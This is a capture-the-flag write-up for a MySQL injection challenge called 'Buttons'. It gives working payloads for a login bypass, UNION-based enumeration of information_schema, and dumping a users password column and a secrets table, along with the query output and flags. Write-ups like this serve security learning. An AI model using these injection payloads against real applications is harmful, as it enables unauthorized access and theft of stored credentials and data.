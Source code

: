 # Buttons
>  http://buttons.ctf-league.osusec.org/
> this was a mysql injection based challenge

## Solution

> the order that we got the flags was flag 1, 3 and then 2, but the write up will be in the order of flag 1, 2 and 3

### Flag 1
Testing out just a simple sql injection on the login page, I tried just 'admin' 'admin' which did not work,
I then tried 
```sql
admin'#
```

with no password which gave me the flag

```shell
osu{qu0t3_m3_0n_th4t}
```

### Flag 2
using the same score leaderboard that we used to find the flag 3 we were trying to find the second flag that we missed

guessing it had something to do with the users table and trying to get their username or password, I tried a few different payloads,

just guessing at pulling columns from the data base, trying to find information on if there is any special user or password that we can use to login with, I tried the following payload

```sql
' UniOn Select 1,gRoUp_cOncaT(0x7c,id,password,0x7C) fRoM users -- 
```

this gave us the final flag we were missing:
    
```shell
osu{4nd5up3rs3cr3tp455w0rd}
```

this was de

### Flag 3

up next was trying to find out how to get more info on the sql server,

I followed a mysql flow site to help me with this: https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection#flow

I first tried to detect the number of columns in the table by using the following payload by attempting different numbers of 'nulls' 

```sql
admin' UNION SELECT null,null,null,null --'
```
This brought me to a different page, where it listed a bunch of usernames, and scores in a leaderbaord.

as well as the ability to search for a users name

I then tried to get the database names by using the following payload

```sql
' UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata -- 
```

this gave us the following database names: 

```shell
|mysql|,|information_schema|,|performance_schema|,|sys|,|ctfdb|
```

with all of these databases, we assumed we wanted the information_schema database, so we then tried to get the table names from the information_schema database by using the following injection

```sql
' UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables -- 
```

this gave us the following table names: (there are a lot)

```shell
|scores|,|secrets|,|users|,|ADMINISTRABLE_ROLE_AUTHORIZATIONS|,|APPLICABLE_ROLES|,|CHARACTER_SETS|,|CHECK_CONSTRAINTS|,|COLLATIONS|,|COLLATION_CHARACTER_SET_APPLICABILITY|,|COLUMNS|,|COLUMNS_EXTENSIONS|,|COLUMN_PRIVILEGES|,|COLUMN_STATISTICS|,|ENABLED_ROLES|,|ENGINES|,|EVENTS|,|FILES|,|INNODB_BUFFER_PAGE|,|INNODB_BUFFER_PAGE_LRU|,|INNODB_BUFFER_POOL_STATS|,|INNODB_CACHED_INDEXES|,|INNODB_CMP|,|INNODB_CMPMEM|,|INNODB_CMPMEM_RESET|,|INNODB_CMP_PER_INDEX|,|INNODB_CMP_PER_INDEX_RESET|,|INNODB_CMP_RESET|,|INNODB_COLUMNS|,|INNODB_DATAFILES|,|INNODB_FIELDS|,|INNODB_FOREIGN|,|INNODB_FOREIGN_COLS|,|INNODB_FT_BEING_DELETED|,|INNODB_FT_CONFIG|,|INNODB_FT_DEFAULT_STOPWORD|,|INNODB_FT_DELETED|,|INNODB_FT_INDEX_CACHE|,|INNODB_FT_INDEX_TABLE|,|INNODB_INDEXES|,|INNODB_METRICS|,|INNODB_SESSION_TEMP_TABLESPACES|,|INNODB_TABLES|,|INNODB_TABLESPACES|,|INNODB_TABLESPACES_BRIEF|,|INNODB_TABLESTATS|,|INNODB_TEMP_TABLE_INFO|,|INNODB_TRX|,|INNODB_VIRTUAL|,|KEYWORDS|,|KEY_COLUMN_USAGE|,|OPTIMIZER_TRACE|,|PARAMETERS|,|PARTITIONS|,|PLUG
```

the one that sticks out is 'secrets' so we then tried to get the column names from the secrets table by using the following injection

```sql
' UniOn Select 1,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns WHERE table_name="secrets" -- 
```

This gave us the following column names:

```shell
|id|,|secret|
```

here secret sticks out like a sore thumb, and now we just need to get the data from secrets

trying out a few different commands to get teh information this is the one that worked:

```sql
' UniOn Select 1,gRoUp_cOncaT(0x7c,id,secret,0x7C) fRoM secrets -- 
```

this gave us our flag:

```shell
osu{sn34k1n_4r0und}
```

## Sumary

this challenge was not what I was used to, I am not awfully familiar with sql injection and this was a good challenge to get more familar with it. 

the first flag was easy to get, I remember from a previous ctf challenge I have done that the # symbol is used to comment out the rest of the query, and in combination with the ' to close the string, it was easy to get the first flag. as it skips the password check.

the third flag was noticably more difficult, having to gather information on the databse, the columns and the tables, adn then finally the data from the table was hard, but with the help of the link above to "guide" through the process it helped a lot with the process.

the second flag was definitely between the two other flags in terms of difficulty, just took some guessing and checking to get the flag, but it was not too difficult to get.

I do not understand the exact sql, but I do get the basics of why these injections work 

>** I do not own nor did I create the content for this challenge. This is a writeup for the challenge that I solved **

